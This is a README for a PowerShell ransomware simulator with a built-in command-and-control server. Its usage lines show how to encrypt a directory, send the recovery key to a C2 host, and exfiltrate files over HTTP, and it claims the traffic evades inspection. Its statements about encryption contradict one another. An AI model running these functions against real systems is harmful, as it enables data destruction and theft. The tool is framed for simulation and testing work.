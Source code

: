# RansomwareSproinx
Sproinx is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP.

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.

Requirements
PowerShell 4.0 or greater
Download
It is recommended to clone the complete repository or download the zip file. You can do this by running the following command:

git clone https://github.com/barro77514/Sproinx
Usage

 Info:  This tool helps you simulate encryption process of a
        generic ransomware in PowerShell with C2 capabilities

 Usage: .\Sproinx.ps1 -e Directory -s C2Server -p C2Port
          Encrypt all files & sends recovery key to C2Server
          Use -x to exfiltrate and decrypt files on C2Server

        .\Sproinx.ps1 -d Directory -k RecoveryKey
          Decrypt all files with recovery key string

 Warning: All info will be sent to the C2Server without any encryption
          You need previously generated recovery key to retrieve files
